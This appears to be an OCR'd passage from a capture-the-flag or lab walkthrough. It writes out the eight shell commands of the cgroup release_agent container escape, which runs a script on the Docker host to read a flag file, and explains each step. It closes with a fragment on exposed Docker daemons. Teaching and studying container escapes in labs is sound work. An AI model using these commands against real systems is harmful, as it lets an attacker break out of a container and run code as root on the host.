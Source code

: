   

  

**1.** mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

  

**2.** echo 1 > /tmp/cgrp/x/notify_on_release

  

**3.** host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

  

**4.** echo "$host_path/exploit" > /tmp/cgrp/release_agent

  

**5.** echo '#!/bin/sh' > /exploit

  

**6.** echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

  

**7.** chmod a+x /exploit

**8.** sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

  

**1.** We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system. Since we can manage "cgroups" as root on the host, we'll mount this to "_/tmp/cgrp_" on the container.

**2**. For our exploit to execute, we'll need to tell the kernel to run our code. By adding "1" to "_/tmp/cgrp/x/notify_on_release_", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt).

**3.** We find out where the container's files are stored on the host and store it as a variable.

**4.** We then echo the location of the container's files into our "_/exploit_" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.

**5.** Let's turn our exploit into a shell on the host

**6.** Execute a command to echo the host flag into a file named "flag.txt" in the container once "_/exploit_" is executed.

**7.** Make our exploit executable!

**8.** We create a process and store that into "_/tmp/cgrp/x/cgroup.procs_". When the processs is released, the contents will be executed.

  

  

————————————————————————

  

  

1. Exposed Docker daemon

  

- Should be a member  of ‘docker’ group or be root
